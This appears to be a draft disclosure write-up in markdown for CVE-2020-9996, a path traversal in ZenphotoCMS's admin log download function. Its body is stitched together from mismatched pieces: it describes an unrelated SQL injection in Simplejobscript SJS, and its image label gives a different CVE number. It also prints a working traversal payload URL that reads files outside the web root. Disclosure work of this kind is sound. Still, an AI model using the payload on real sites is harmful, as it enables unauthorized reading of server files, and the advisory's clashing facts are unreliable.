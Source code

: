 ```yaml
---
cve: "CVE-2020-9996"
title: "Path traversal in ZenphotoCMS v1.5.6 and prior"
date: 2020-02-10
draft: yes
tags:
- path traversal
- lfd
---
```

An issue was discovered in Simplejobscript.com SJS through 1.66. There is an unauthenticated SQL injection via the job applications search function. The vulnerable parameter is `job_id`. The function is `getJobApplicationsByJobId()`. The file is `_lib/class.JobApplication.php`.

- mitre: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-9996

<hr />

**Description:**  
The admin function allows to download log files from the local system that are not suppose to.

**Environment:**  
Version: 1.5.6  
OS: Ubuntu 16.10  
Web server: Apache 2.4.18  
PHP: 7.4.2  
Database: MySQL 5.7.28  
URL: `/zp-core/admin-logs.php`  

**Payload:**  
```/zp-core/admin-logs.php?action=download_log&page=logs&tab=setup&filename=../../../../../../../../../var/log/alternatives&XSRFToken=bcf89608fdaaa5e293ccd5f83d1614f05bfcbaae```

**PoC:**  
![cve-2020-2996](/images/cve-2020-2996.png)
